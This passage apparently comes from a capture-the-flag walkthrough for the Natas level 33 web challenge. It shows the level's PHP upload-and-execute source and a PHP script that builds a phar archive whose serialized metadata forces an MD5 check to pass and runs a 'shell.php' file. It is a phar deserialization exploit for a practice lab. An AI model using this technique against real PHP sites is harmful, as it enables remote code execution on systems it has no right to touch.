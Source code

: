   ```
  
                      // "The working directory in the script shutdown phase can be different with some SAPIs (e.g. Apache)."
                      chdir("/natas33/upload/");
                      if(md5_file($this->filename) == $this->signature){
                          echo "Congratulations! Running firmware update: $this->filename <br>";
                          passthru("php " . $this->filename);
                      }
                      else{
                          echo "Failur! MD5sum mismatch!<br>";
                      }
                  }
              }
          ?>
  
          <h1>natas33</h1>
          <div id="content">
              <h2>Can you get it right?</h2>
  
              <?php
                  session_start();
                  if(array_key_exists("filename", $_POST) and array_key_exists("uploadedfile",$_FILES)) {
                      new Executor();
                  }
              ?>
              <form enctype="multipart/form-data" action="index.php" method="POST">
                  <input type="hidden" name="MAX_FILE_SIZE" value="4096" />
                  <input type="hidden" name="filename" value="<?php echo session_id(); ?>" />
                  Upload Firmware Update:<br/>
                  <input name="uploadedfile" type="file" /><br />
                  <input type="submit" value="Upload File" />
              </form>
  
              <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
          </div>
      </body>
  </html>
  ```

- First, create a `phar` file.

  ```
  $ cat natas33.php          
  <?php
  
  class Executor{
      private $filename = "shell.php";
      private $signature = True;
      private $init = false;
  }
  
  $phar = new Phar('natas.phar');
  $phar->startBuffering();
  $phar->addFromString('test.txt', 'text');
  $phar->setStub('<?php __HALT_COMPILER(); ? >');
  
  $object = new Executor();
  $object->data = 'rips';
  $phar->setMetadata($object);
  $phar->stopBuffering();
  
  ?>
  ```
